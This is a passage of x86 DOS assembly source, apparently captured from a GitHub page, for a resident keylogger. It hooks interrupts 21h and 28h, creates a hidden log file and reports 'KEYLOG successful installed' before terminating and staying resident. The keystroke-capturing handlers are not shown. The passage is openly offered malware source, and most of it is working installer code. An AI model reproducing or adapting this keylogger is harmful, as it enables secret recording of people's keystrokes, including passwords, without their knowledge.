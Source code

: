 ```
		mov   	cs:old_28_offset, bx     
		mov   	cs:old_28_segment, es    

		mov   	ax, 2528h		;Set new 28h handler                
		mov   	dx, offset new_28h       
		int   	21h

		mov	ax, 3521h		;Get old21h handler
		int	21h

		mov	cs:old_21_offset, bx
		mov	cs:old_21_segment, es

		mov   	ax, 2521h		;Set new 21h handler
		mov   	dx, offset new_21h       
		int   	21h
 
		call  	create_log_file         
 
		mov   	dx, offset ok_installed   
		mov   	ah, 09h			
		int   	21h

		mov       dx, offset real_start
		mov       cl, 4
		shr       dx, cl
		add       dx, 111h
		mov       ax, 3100h		;Terminate and stay resident
		int       21h  


create_log_file:
		mov   	ax, 3D01h	;Try to open file
		lea   	dx, logfile
		int   	21h                     
		mov   	handle, ax              
		jnc   	clog4                   
 
clog3:
		mov	ah, 3Ch         ;Create new file if not opened
		mov	cx, 02h                 
		lea	dx, logfile
		int	21h
		mov	handle, ax
 
clog4:
		mov	bx, handle      ;Remember file handle
		mov	ah, 3Eh		;Close file
		int	21h
		ret 


already_inst:
		mov	dx, offset already_msg
		mov	ah, 09h
		int	21h
		jmp	exit
 

exit:
		int	20h
 
ok_installed	db 'KEYLOG successful installed$'
```